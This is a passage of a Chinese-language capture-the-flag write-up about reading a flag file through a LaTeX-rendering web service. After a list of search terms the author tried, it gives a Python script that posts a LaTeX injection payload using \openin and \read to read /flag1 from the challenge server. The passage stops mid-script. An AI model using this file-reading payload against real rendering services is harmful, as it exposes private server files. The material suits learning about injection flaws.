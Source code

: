 <p>后来在了解 Latex 宏的过程中终于搞明白 <code>#</code> 的功能是在宏内部表示这个宏接收的参数，例如 <code>#1</code> 表示这个宏的第 1 个参数，<code>#2</code> 表示这个宏的第 2 个参数。</p>
<p>但这并不能对解题起到帮助，该不会还是不会。</p>
<p>笔者又去 Google 了包括但不限于下列关键词：</p>
<ul>
<li>latex include plain text with escape chars</li>
<li>latex verb include</li>
<li>latex verbatim</li>
<li>latex texttt</li>
<li>latex listing</li>
<li>latex verbatiminput</li>
<li>latex ignore special chars escape chars</li>
<li>latex usepackage in document</li>
<li>latex multi document</li>
<li>latex replace</li>
<li>Embedded Latex(搜这个是受到了安全 OJ 那题的启发)</li>
<li>latex commandchars</li>
<li>How to include plain text with special chars</li>
<li>...</li>
</ul>
<p>并且做了一个 Python 脚本方便上传 tex 语句</p>
<pre class="language-python"><code class="language-python"><span class="token keyword">import</span> requests
<span class="token keyword">from</span> bs4 <span class="token keyword">import</span> BeautifulSoup

text <span class="token operator">=</span> <span class="token triple-quoted-string string">""" $$
\\newread\\recipientfile
\\openin\\recipientfile=/flag1
\\read\\recipientfile to\\email
\\closein\\recipientfile
\\texttt{\\email}
\\verb|\\email|
$$ """</span>


<span class="token keyword">print</span><span class="token punctuation">(</span>text<span class="token punctuation">)</span>

data <span class="token operator">=</span> <span class="token punctuation">{</span>
	<span class="token string">"latex-text"</span><span class="token punctuation">:</span> text<span class="token punctuation">.</span>replace<span class="token punctuation">(</span><span class="token string">"\n"</span><span class="token punctuation">,</span> <span class="token string">" "</span><span class="token punctuation">)</span><span class="token punctuation">,</span>
<span class="token punctuation">}</span>

url <span class="token operator">=</span> <span class="token string">"http://202.38.93.111:10020/"</span>

ret <span class="token operator">=</span> requests<span class="token punctuation">.</span>post<span class="token punctuation">(</span>url<span class="token operator">=</span>url<span class="token punctuation">,</span> headers<span class="token operator">=</span>header<span class="token punctuation">,</span> data<span class="token operator">=</span>data<span class="token punctuation">)</span><span class="token punctuation">.</span>content<span class="token punctuation">.</span>decode<span class="token punctuation">(</span><span class="token string">'utf-8'</span><span class="token punctuation">)</span>
soup <span class="token operator">=</span> BeautifulSoup<span class="token punctuation">(</span>ret<span class="token punctuation">,</span> <span class="token string">'html.parser'</span><span class="token punctuation">)</span>
img_list <span class="token operator">=</span> soup<span class="token punctuation">.</span>find_all<span class="token punctuation">(</span><span class="token string">"img"</span><span class="token punctuation">)</span>
<span class="token keyword">if</span> <span class="token builtin">len</span><span class="token punctuation">(</span>img_list<span class="token punctuation">)</span> <span class="token operator">></span> <span class="token number">0</span><span class="token punctuation">:</span>